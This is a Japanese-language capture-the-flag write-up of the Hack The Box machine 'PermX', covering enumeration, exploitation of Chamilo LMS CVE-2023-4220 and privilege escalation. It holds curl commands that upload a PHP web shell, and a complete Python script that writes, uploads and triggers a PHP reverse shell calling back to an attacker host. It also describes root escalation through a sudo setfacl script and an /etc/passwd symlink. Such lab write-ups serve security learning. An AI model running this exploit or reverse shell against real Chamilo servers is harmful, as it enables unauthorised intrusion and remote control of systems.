


# PermX


# Enumeration

## nmap

```
# Nmap 7.94SVN scan initiated Sun Jul  7 08:08:10 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/hatto/CTF/HTB/machine/Linux/PermX/results/10.10.11.23/scans/_full_tcp_nmap.txt -oX /home/hatto/CTF/HTB/machine/Linux/PermX/results/10.10.11.23/scans/xml/_full_tcp_nmap.xml 10.10.11.23
Nmap scan report for 10.10.11.23
Host is up, received user-set (0.20s latency).
Scanned at 2024-07-07 08:08:10 JST for 544s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAyYzjPGuVga97Y5vl5BajgMpjiGqUWp23U2DO9Kij5AhK3lyZFq/rroiDu7zYpMTCkFAk0fICBScfnuLHi6NOI=
|   256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8A41tX6hHpQeDLNhKf2QuBM7kqwhIBXGZ4jiOsbYCI
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/7%OT=22%CT=1%CU=41044%PV=Y%DS=2%DC=T%G=Y%TM=6689D
OS:07A%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AS
OS:T11NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Uptime guess: 5.774 days (since Mon Jul  1 13:43:20 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   164.98 ms 10.10.16.1
2   247.37 ms 10.10.11.23

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  7 08:17:14 2024 -- 1 IP address (1 host up) scanned in 544.51 seconds

```

ポートスキャンの結果から `permx.htb`  というドメインを見つけたのでhostsファイルに追加してウェブサイトにアクセスする


おそらく、オンライン学習プラットフォームのホームページ

ホームページ内には何も興味深いものは見つからなかったのでサブドメインとディレクトリ列挙を行う

## サブドメイン・ディレクトリ列挙

`lib` ディレクトリと `LICENSE.txt` ファイルが見つかった


`lib` に移動すると


いくつかディレクトリが見つかった。一つずつ見ていったが何も興味深いものは見つからなかった

次にサブドメインの列挙を行うとサブドメイン `www`, `lms` が見つかった


見つけたサブドメインをhostsファイルに追加してアクセスする

`www` は機能しなかったので `lms` にアクセスすると `Chamilo` という無料のe-ラーニングおよびコンテンツ管理システムのログインページが見つかった


いくつか適当なユーザーネームやパスワードを試したが機能しないのでディレクトリ探索を行う


`/documentation/` にアクセスするとChamiloのバージョン情報を見つけた


searchsploitで既知の脆弱性がないか調べてみると 1.11.14にRCEの脆弱性があることが分かった


しかし認証情報がないので機能することはなかった


認証情報を求めてディレクトリ内のファイルなどを調査したがそれらしきものがなかったため他にCVEがないか調べてみると以下の記事を発見した

[(CVE-2023-4220) Chamilo LMS 認証されていない大容量アップロードファイルのリモートコード実行](https://starlabs.sg/advisories/23/23-4220/)

この脆弱性は認証されていない攻撃者が、保存されたクロスサイト スクリプティング攻撃を実行したり、リモート コードを実行したりすることができる。

# Exploit

## 手動で行う

まず `/main/inc/lib/javascript/bigupload/files/` フォルダがあることを確認する


攻撃マシンで以下のコマンドを実行する

```
echo '<?php system("id"); ?>' > rce.php
```

```
curl -F 'bigUploadFile=@rce.php''http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

```
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

`id` コマンドの実行に成功した


しかしこのスクリプトでリバースシェルをいくつか送信してみたが機能しなかった

`php-reverse-shell.php` を使用する


ファイルをアップロードしリクエストを送信すると


シェルを取得できた

## 自動でおこなう

このCVEを自動化するスクリプトを作成した

```python
import requests
import argparse

def create_php_file(ip, port):
    php_code = f"""<?php set_time_limit(0);$VERSION="1.0";$ip='{ip}';$port={port};$chunk_size=1400;$write_a=null;$error_a=null;$shell='uname -a; w; id; /bin/sh -i';$daemon=0;$debug=0;if(function_exists('pcntl_fork')){{$pid=pcntl_fork();if($pid==-1){{printit("ERROR: Can't fork");exit(1);}}if($pid){{exit(0);}}if(posix_setsid()==-1){{printit("Error: Can't setsid()");exit(1);}}$daemon=1;}}else{{printit("WARNING: Failed to daemonise. This is quite common and not fatal.");}}chdir("/");umask(0);$sock=fsockopen($ip,$port,$errno,$errstr,30);if(!$sock){{printit("$errstr ($errno)");exit(1);}}$descriptorspec=array(0=>array("pipe","r"),1=>array("pipe","w"),2=>array("pipe","w"));$process=proc_open($shell,$descriptorspec,$pipes);if(!is_resource($process)){{printit("ERROR: Can't spawn shell");exit(1);}}stream_set_blocking($pipes[0],0);stream_set_blocking($pipes[1],0);stream_set_blocking($pipes[2],0);stream_set_blocking($sock,0);printit("Successfully opened reverse shell to $ip:$port");while(1){{if(feof($sock)){{printit("ERROR: Shell connection terminated");break;}}if(feof($pipes[1])){{printit("ERROR: Shell process terminated");break;}}$read_a=array($sock,$pipes[1],$pipes[2]);$num_changed_sockets=stream_select($read_a,$write_a,$error_a,null);if(in_array($sock,$read_a)){{if($debug)printit("SOCK READ");$input=fread($sock,$chunk_size);if($debug)printit("SOCK: $input");fwrite($pipes[0],$input);}}if(in_array($pipes[1],$read_a)){{if($debug)printit("STDOUT READ");$input=fread($pipes[1],$chunk_size);if($debug)printit("STDOUT: $input");fwrite($sock,$input);}}if(in_array($pipes[2],$read_a)){{if($debug)printit("STDERR READ");$input=fread($pipes[2],$chunk_size);if($debug)printit("STDERR: $input");fwrite($sock,$input);}}}}fclose($sock);fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($process);function printit($string){{if(!$daemon){{print "$string\\n";}}}}?>"""
    with open('reverse_shell.php', 'w') as file:
        file.write(php_code)
    print('[+] PHP file created')

def upload_file(url):
    upload_url = f"{url}/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported"
    files = {'bigUploadFile': open('reverse_shell.php', 'rb')}
    response = requests.post(upload_url, files=files)
    if response.status_code == 200:
        print('[+] Upload Success!')
    else:
        print('[!] Upload Failed!')

def send_request(url):
    request_url = f"{url}/main/inc/lib/javascript/bigupload/files/reverse_shell.php"
    print('[+] Send Request')
    req = requests.get(request_url)
    print(req.text)

def main():
    parser = argparse.ArgumentParser(
        prog='permx_exploit.py', 
        usage='python3 permx_exploit.py -u <target url> -l <lhost> -p <lport>',
        description='(CVE-2023-4220) Chamilo LMS Unauthenticated Big Upload File Remote Code Execution PoC', 
        epilog='end', 
        add_help=True,
    )
    parser.add_argument('-u', '--url', required=True, help='Target URL')
    parser.add_argument('-l', '--lhost', required=True, help='Local host IP')
    parser.add_argument('-p', '--lport', required=True, help='Local port')
    args = parser.parse_args()

    create_php_file(args.lhost, args.lport)
    upload_file(args.url)
    send_request(args.url)

if __name__ == '__main__':
    main()

```

実行することでシェルを取得することができた


# Privilege Escalation

## mtz

/homeディレクトリを調べると `mtz` というユーザーがいることがわかったので横移動する必要がある


列挙の段階で `app/config/configuration.php` に認証情報が格納されていることが分かっていたので調べてみると


データベースにアクセスする認証情報を見つけた

このパスワードを `mtz` でssh接続できないか試してみる


ログインすることができた


user.txtをゲット

## root

とりあえずいつものようにlinpeas.shを実行する


パスワードなしでrootとして実行できるスクリプトを見つけた



スクリプトの内容を見てみる


このスクリプトは第一引数にユーザー名、第二引数に与える権限、第三引数に権限を与えるファイル名を指定して実行することで`setfacl`を使用して任意の権限を与えることができるスクリプトと分かる

`setfacl`がsudoで実行されることが分かるのでroot権限でしか閲覧できないファイルに書き込み、読み取り、実行を行える権限を付与できる

setfaclの悪用方法について調べていると以下の記事を発見した

[ACL Privilege Escalation](https://tanishqrathore.medium.com/acl-privilege-escalation-3f7835459965)

この記事では/etc/passwdファイルにroot権限を持った新しいユーザーを作成している

この方法で権限を昇格できそうなので試してみる

まずパスワードを作成する。今回は`123`とする


/etc/passwdのシンボリックリンクを作成


`/opt/acl.sh` スクリプトでシンボリックリンクに権限を与える


vimでファイルを開き以下のようにopensslで作成したパスワードハッシュを記入する


記入したら新しく作成したユーザーにログイン


rootになれた



root.txt ゲット

